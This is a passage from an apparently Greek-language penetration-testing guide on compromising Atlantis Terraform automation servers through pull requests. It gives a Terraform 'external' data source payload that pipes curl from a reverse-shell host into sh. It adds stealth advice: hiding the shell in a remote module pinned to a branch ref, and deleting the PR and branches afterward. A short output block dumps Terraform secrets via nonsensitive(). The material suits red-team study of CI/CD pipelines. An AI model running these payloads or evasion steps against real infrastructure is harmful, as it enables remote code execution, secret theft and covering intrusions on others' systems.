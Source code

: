 Μπορείτε να το διορθώσετε εκτελώντας:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
#### Atlantis plan RCE - Τροποποίηση ρυθμίσεων σε νέο PR

Αν έχετε δικαιώματα εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλάδο σε αυτό και να δημιουργήσετε ένα PR. Αν μπορείτε να **εκτελέσετε `atlantis plan`** (ή ίσως εκτελείται αυτόματα) **θα μπορείτε να RCE μέσα στον διακομιστή Atlantis**.

Μπορείτε να το κάνετε αυτό κάνοντάς το [**Atlantis να φορτώσει μια εξωτερική πηγή δεδομένων**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data_source). Απλά τοποθετήστε ένα payload όπως το παρακάτω στο αρχείο `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
**Πιο Διακριτική Επίθεση**

Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα και με **πιο διακριτικό τρόπο**, ακολουθώντας αυτές τις προτάσεις:

- Αντί να προσθέσετε το rev shell απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε μια εξωτερική πηγή** που περιέχει το rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα rev shell στο [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

- Στην εξωτερική πηγή, χρησιμοποιήστε τη λειτουργία **ref** για να κρύψετε τον **κώδικα terraform rev shell σε ένα branch** μέσα στο repo, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
- **Αντί** να δημιουργήσετε ένα **PR στο master** για να ενεργοποιήσετε το Atlantis, **δημιουργήστε 2 branches** (test1 και test2) και δημιουργήστε ένα **PR από το ένα στο άλλο**. Όταν ολοκληρώσετε την επίθεση, απλά **αφαιρέστε το PR και τα branches**.

#### Atlantis plan Secrets Dump

Μπορείτε να **dump secrets που χρησιμοποιούνται από το terraform** εκτελώντας `atlantis plan` (`terraform plan`) βάζοντας κάτι τέτοιο στο αρχείο terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
#### Atlantis apply RCE - Τροποποίηση ρυθμίσεων σε νέο PR

Αν έχετε δικαιώματα εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλάδο σε αυτό και να δημιουργήσετε ένα PR. Αν μπορείτε να **εκτελέσετε `atlantis apply`, θα μπορείτε να κάνετε RCE μέσα στον διακομιστή Atlantis**.
